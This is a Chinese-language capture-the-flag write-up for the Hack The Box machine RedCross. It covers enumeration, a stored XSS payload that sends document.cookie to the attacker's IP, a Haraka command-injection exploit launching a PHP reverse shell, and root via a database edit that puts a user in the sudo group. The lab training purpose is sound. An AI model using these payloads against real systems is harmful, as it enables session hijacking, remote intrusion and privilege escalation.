 ```yaml
---
description: 中等 / XSS / PostgreSQL
---
```


# ✔️ RedCross

## 建立立足点

### 信息收集

* 使用Nmap进行对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA redcross 10.129.9.55 --open
```

<figure><img src="../../.gitbook/assets/1 (33).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现它重定向到https://intra.redcross.htb/这个地址，将域名添加到/hosts文件中，然后再次访问，获得一个登录页面：

<figure><img src="../../.gitbook/assets/2 (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (28).png" alt=""><figcaption></figcaption></figure>

* 尝试几个弱口令均失败后，使用dirsearch扫描是否有隐藏文件/目录，没什么收获：

```bash
dirsearch -u  http://10.129.9.55 -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用Wfuzz尝试扫描子域，发现有两个结果：

```bash
wfuzz -c -u https://intra.redcross.htb -H "Host:FUZZ.redcross.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将以上子域也添加到/hosts文件中，再访问admin这个子域就获得了一个管理登录界面，简单尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 找到的两个登录界面也没有查看到所使用的公开已知的软件信息，因此无法通过常规的搜寻公开已知漏洞进行利用。在当前没有任何有效凭证的情况下，尝试暴力破解无果。决定从头枚举，发现遗漏了对443端口的扫描：

```bash
dirbuster -u https://intra.redcross.htb:443 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -r
```

* 陆续又扫出一些目录和页面：

<figure><img src="../../.gitbook/assets/8 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (28).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 花了大量的时间进行扫描，实在是没找到什么有用的东西和凭证，所以决定从已经枚举出的页面进行测试。因为其他几个都是登录页面，所以先从有输入框的contact页面开始进行XSS测试，先寻找XSS注入点。
* 首先简单写个\<script>脚本标签，依次放入不同的输入框中进行POST提交，观察有无返回信息，以及返回信息的具体内容：

<figure><img src="../../.gitbook/assets/11 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 当把\<script>脚本标签放入contact phone or email这个框中时，返回了已发送的提示，说明此时我们已找到了注入点：

<figure><img src="../../.gitbook/assets/13 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后开始构建注入语句，先简单测试一下和本机是否通信：

```html
# 在输入框中
<script src="http://10.10.16.17:8888/test"></script>
# 在Kali本机做好监听
nc -lvnp 8888
```

<figure><img src="../../.gitbook/assets/16 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后构建一个尝试获取有效的会话cookie的语句，当能获取到有效的cookie时，我们就能将该cookie放入自己的浏览器中，绕过原有的密码输入，伪装成该用户进行登录：

<pre class="language-html"><code class="lang-html">nc -lvnp 8888
<strong>&#x3C;script>new Image().src="http://10.10.16.17:8888/test.php?c="+document.cookie;&#x3C;/script>
</strong></code></pre>

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时已获取到了有效的PHPSESSIONID，并且后面的域是指向admin的，说明是admin这个页面的cookie，去admin页面登录。替换掉原有的PHPSESSIONID，然后刷新页面即可登录成功：

<figure><img src="../../.gitbook/assets/19 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

* 进入Network Access，发现是一个设置白名单的界面，将自己的IP先添加进去：

<figure><img src="../../.gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

* 进入User Management里，添加一个新用户，获得了系统生成的密码，同时还发现了另一个用户tricia：

<figure><img src="../../.gitbook/assets/44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

* 尝试用这个有效凭证登录之前的intra页面，登录失败：

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

* 但是根据Nmap的扫描结果，还有一个SSH服务，利用这个有效凭证登录成功：

<figure><img src="../../.gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

* 里面并没有flag，但是找到了另外一个新用户：penelope
* 因为已经将自己的IP地址加入了目标系统的白名单，再次扫描开放端口发现多了几个：

```bash
nmap -sC -sV -p- -oA redcross2 10.129.6.250 --open
```

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录FTP失败：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出结果，5432端口上运行了postgresql服务，尝试用默认凭证登录不成功：

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

* 还剩下一个1025端口，因为该端口上运行的并不是常规的服务，所以可以使用netcat和该端口上的服务进行交互，从而获取到它运行的服务名和版本等信息：

```bash
nc -vvvv 10.129.6.250 1025
```

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 得到服务为：Haraka 2.8.8，然后搜索相关公开漏洞发现有一个远程命令注入：

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

* 下载搜索到的脚本到本地：

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

* 查看帮助信息如何使用该脚本，并且查看脚本内容发现默认端口处需要修改为目标的开放端口1025：

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

* 利用该脚本执行反弹shell，此处用到常用的pentestmokey reverse shell中的PHP反弹shell：

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

```bash
# 注意需要转义符，并在kali本机做好监听
python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.16.17\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.129.6.250
```

<figure><img src="../../.gitbook/assets/39 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/41.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 常规的枚举检查，没有找到可以利用的点：

<figure><img src="../../.gitbook/assets/42.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/43.png" alt=""><figcaption></figcaption></figure>

* 依次检查目标系统上的各个目录，在/var/www/html/admin/pages目录下找到几个php文件，其中actions.php、login.php、users.php里面都包含了大量的可用于连接postgresql的用户凭证：

<figure><img src="../../.gitbook/assets/45.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/46.png" alt=""><figcaption></figcaption></figure>

* 使用以上用户凭证连接数据库，该文件中已经包含了table名，直接查询获得之前admin界面的两个用户凭证：

```bash
psql -h 127.0.0.1 -p 5432 -U unixusrmgr -d unix
# 查询表里的用户名和密码
SELECT * FROM passwd_table;
```

<figure><img src="../../.gitbook/assets/48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/47 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 因为系统中的每一个用户都有唯一的UID和GID，当可以滥用sudo配置将任意用户添加进sudo组，就能通过sudo命令执行root权限才能执行的命令，实现提权。查询sudo组的ID为27，将之前新添加进去的用户fiii的GID改为27：

```bash
# 在postgresql中
update passwd_table set gid=27 where uid=2021;
```

<figure><img src="../../.gitbook/assets/49 (1).png" alt=""><figcaption></figcaption></figure>

* 之前已经由目标系统生成了新用户的凭证，所以直接登录ssh服务，然后切换超级用户即可实现提权：

```bash
ssh fiii@10.129.111.68
sudo su
```

<figure><img src="../../.gitbook/assets/50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/52.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例完成的并不顺利，对我来说有一些难度。Get Shell阶段当没有任何收获时，多换几个工具扫描试试，但不能一味指望着扫描能扫出来东西，会浪费很多时间。靶场的机器名字有时是关于所使用的应用的漏洞提示，有时还可以是关于攻击手法的提示。权限提升阶段涉及到对目标系统各个文件夹的枚举，并不是因为某第三方软件或者系统有漏洞，而是属于滥用sudo配置可将任意用户添加进sudo组所导致的提权成功。

(本例机器中途重置过，IP地址有变化，但不影响漏洞利用及其实现结果)
{% endhint %}
